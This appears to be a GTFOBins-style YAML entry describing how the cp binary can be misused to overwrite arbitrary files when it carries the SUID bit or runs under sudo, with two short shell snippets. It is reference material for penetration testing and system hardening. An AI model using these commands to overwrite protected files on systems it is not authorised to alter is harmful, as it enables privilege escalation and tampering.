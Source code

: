 ```yaml
---
description: This can be used to copy and then read or write files from a restricted file systems or with elevated privileges.
functions:
  suid-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        ./cp $TF $LFILE
  sudo-enabled:
    - code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo "DATA" > $TF
        sudo cp $TF $LFILE
---
```

